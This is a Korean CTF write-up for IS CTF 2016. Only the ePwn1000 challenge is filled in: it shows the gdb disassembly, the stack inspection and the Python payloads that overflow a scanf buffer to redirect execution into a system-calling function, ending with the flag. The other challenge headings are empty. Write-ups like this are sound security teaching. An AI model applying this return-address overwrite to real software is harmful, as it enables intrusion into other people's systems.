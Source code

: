 # IS CTF 2016 Write-up

team02 응 답없음

* ePwn1000, ePwn1200, ePwn1500, ePwn1700, ePwn1800
* mPwn2000, mPwn2300
* Misc2000, Misc2300, Misc2400, Misc2500, Misc2600, Misc2700, Misc2800, Misc3000
* Web1000, Web2000
* Bon1500, Bon1700, Bon2000, Bon2300, Bon2700

## ePwn1000

````
ied206@TS140  ~/ISCTF
$ wget http://45.63.124.167/files/epwn1000
ied206@TS140  ~/ISCTF
$ chmod +x epwn1000
ied206@TS140  ~/ISCTF
$ python -c 'print "A"*0x20 + "\x48\xd5\xff\xff" + "\x0E\x85\x04\x08"' > payload
ied206@TS140  ~/ISCTF
$ nc 45.32.46.195 10000 < payload
Input your name : Your name is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAHֿÿ
ISCTF{Overfffffffflow!!}
````

### 풀이

분석을 위해 epwn1000 바이너리를 IDA로 열어보았다.
컴파일러 stub을 제외한 함수들은 main과 cat_flag 두 개가 존재한다.

main:

![](ePwn1000/main.bmp)

cat_flag:

![](ePwn1000/cat_flag.bmp)

cat_flag 함수가 호출되어야 flag를 볼 수 있으나, cat_flag은 main에서 호출되지 않는다.
하지만 이 바이너리는 stack canary 등이 적용되어 있지 않으므로, scanf를 사용해 BOF 공격을 할 수 있다.

````
(gdb) disas main
Dump of assembler code for function main:
   0x0804851e <+0>:	push   %ebp
   0x0804851f <+1>:	mov    %esp,%ebp
   0x08048521 <+3>:	sub    $0x20,%esp
   0x08048524 <+6>:	mov    0x804a040,%eax
   0x08048529 <+11>:	push   $0x0
   0x0804852b <+13>:	push   %eax
   0x0804852c <+14>:	call   0x80483b0 <setbuf@plt>
   0x08048531 <+19>:	add    $0x8,%esp
   0x08048534 <+22>:	mov    0x804a044,%eax
   0x08048539 <+27>:	push   $0x0
   0x0804853b <+29>:	push   %eax
   0x0804853c <+30>:	call   0x80483b0 <setbuf@plt>
   0x08048541 <+35>:	add    $0x8,%esp
   0x08048544 <+38>:	push   $0x804861d
   0x08048549 <+43>:	call   0x80483c0 <printf@plt>
   0x0804854e <+48>:	add    $0x4,%esp
   0x08048551 <+51>:	lea    -0x20(%ebp),%eax
   0x08048554 <+54>:	push   %eax
   0x08048555 <+55>:	push   $0x8048630
   0x0804855a <+60>:	call   0x80483f0 <__isoc99_scanf@plt>
   0x0804855f <+65>:	add    $0x8,%esp
   0x08048562 <+68>:	lea    -0x20(%ebp),%eax
   0x08048565 <+71>:	push   %eax
   0x08048566 <+72>:	push   $0x8048633
   0x0804856b <+77>:	call   0x80483c0 <printf@plt>
   0x08048570 <+82>:	add    $0x8,%esp
   0x08048573 <+85>:	mov    $0x0,%eax
   0x08048578 <+90>:	leave
   0x08048579 <+91>:	ret
End of assembler dump.
(gdb) disas cat_flag
Dump of assembler code for function cat_flag:
   0x0804850b <+0>:	push   %ebp
   0x0804850c <+1>:	mov    %esp,%ebp
   0x0804850e <+3>:	push   $0x8048600
   0x08048513 <+8>:	call   0x80483d0 <system@plt>
   0x08048518 <+13>:	add    $0x4,%esp
   0x0804851b <+16>:	nop
   0x0804851c <+17>:	leave
   0x0804851d <+18>:	ret
End of assembler dump.
````

이 코드에서 찾을 수 있는 지역변수는 [EBP-0x20] 하나이며, 이는 uint8_t buf[20]; 과 같은 형태를 가지고 있다. IA32의 스택 프레임에 따라, main의 return address는 buf (20B) + exEBP (4B) 다음에 존재한다. return address를 cat_flag 함수의 주소로 바꿔주면 이 함수가 실행되게 할 수 있다.

이론상으로, 다음과 같은 코드로 cat_flag를 실행할 수 있다.

````
$ python -c 'print "A"*0x24 + "\x0B\x85\x04\x08"' | ./epwn1000
````

그러나 이 경우, \x0B\x85\x04\x08 부분이 제대로 print되지 않고 있고, SegFault가 나서 실패한다.

````
Input your name : Your name is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    6625 done                python -c 'print "A"*0x24 + "\x0B\x85\x04\x08"' |
       6626 segmentation fault  ./epwn1000
````

문제를 해결하기 위해 gdb로 stack을 살펴본 결과, \x0B\x85\x04\x08가 \x00\x85\x04\x08으로 바뀌어 들어가 있었다.

````
gdb) x/32x $esp
0xffffd548:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd558:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd568:	0x41414141	0x00850408	0x00000001	0xffffd604
0xffffd578:	0xffffd60c	0x00000000	0x00000000	0x00000000
0xffffd588:	0xf7fc5000	0xf7ffdc04	0xf7ffd000	0x00000000
0xffffd598:	0xf7fc5000	0xf7fc5000	0x00000000	0x87a82a09
0xffffd5a8:	0xbda92419	0x00000000	0x00000000	0x00000000
0xffffd5b8:	0x00000001	0x08048410	0x00000000	0xf7fedee0
````

cat_flag 내의 call 명령어는 0x0804850E에서 호출된다. 현재 \x0B가 문제를 일으키고 있으므로, 이를 \x0E로 바꾼다.

````
$ python -c 'print "A"*0x24 + "\x0E\x85\x04\x08"' | nc 45.32.46.195 10000
Input your name : Your name is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ISCTF{Overfffffffflow!!}
````

flag를 얻을 수 있다.

## ePwn1200

## ePwn1500

## ePwn1700

## ePwn1800

## mPwn2000

## mPwn2300

## Misc2000

## Misc2300

## Misc2400

## Misc2500

## Misc2600

## Misc2700

## Misc2800

## Misc3000

## Web1000

## Web2000

## Bon1500

## Bon1700

## Bon2000

## Bon2300

## Bon2700
